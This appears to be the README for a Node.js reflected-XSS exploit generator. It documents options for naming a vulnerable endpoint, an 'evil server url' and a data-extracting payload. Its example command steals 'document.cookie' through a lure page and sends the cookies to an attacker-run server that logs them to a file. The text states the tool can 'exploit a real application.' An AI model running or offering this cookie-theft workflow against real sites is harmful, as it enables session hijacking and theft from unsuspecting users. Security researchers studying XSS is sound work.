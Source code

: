 usage: node reflected-xss-exploit-generator.js [options]  
  
Options:
```
-i,--interactive    The program ask you the settings 1 by 1 with a large explanation and examples. Good if you never used it before or you are not an expert

-t,--target         The vulnerable endpoint.
-p,--parameter      The vulnerable parameter.
-u,--url            Your evil server url.
-r,--receiver       Your server parameter.
  ,--payload        Code that extracts data.
  ,--php            Only output server php code.
  ,--node           Only output server node code.
-l,--listen         Start the selected php or node http server on the port specified.
-h,--help           This message

NOTICE:
+ If you don't select --php or --node both codes are outputed to terminal so you can copy and paste.
+ If you select --listen, you have to select --php or --node.
+ If you select --listen, a link will be ready to send to the target and a server will be listening too to capture the output.
```

example:  
node reflected-xss-exploit-generator.js -t 'http://localhost:8080/login.php' -p 'username' -u 'http://localhost:1337/cookiesReceiver.js' -r 'username' --payload 'document.cookie' --node -l 1337  
  
  
To run this example you need to serve the vulnerable page:  
php -f vulnerableExample/login.php -S localhost:8080  

Then go to http://localhost:1337/news.html  
This is the url that is going to exploit the user by sending a formulary that steals cookies (or what ever you want) from his browsers to the vulnerable page. Once the target browser is in the vulnerable page, the payload extracts the cookies and redirects to the malicious server. The malicious server append the cookies to a xss-results.txt file and send a 301 redirect response to other page.


NOTICE: THIS PROGRAM IS UNDER DEVELOMENT, The --interactive is not asking if you want to listen (defaults to output code), some logs are not displaying, etc.  
The core is working, you can use it like in the example to exploit a real application.  
There is a lot of work yet to do.
